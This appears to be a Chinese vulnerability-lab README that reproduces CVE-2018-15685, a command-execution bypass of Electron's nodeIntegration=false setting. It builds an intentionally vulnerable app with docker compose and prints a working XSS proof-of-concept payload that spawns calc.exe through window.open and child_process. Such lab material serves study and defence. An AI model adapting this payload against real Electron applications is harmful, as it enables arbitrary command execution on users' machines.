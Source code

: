 # Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）

Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

参考链接：

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker compose run -e PLATFORM=win64 --rm electron
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker compose run --rm -p 8080:80 web
```

此时，访问`http://your-ip:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

## 复现漏洞

在本地打开应用：

![](1.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交`<img src=1 onerror="require('child_process').exec('calc.exe')">`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

可见，calc.exe已成功弹出：

![](2.png)
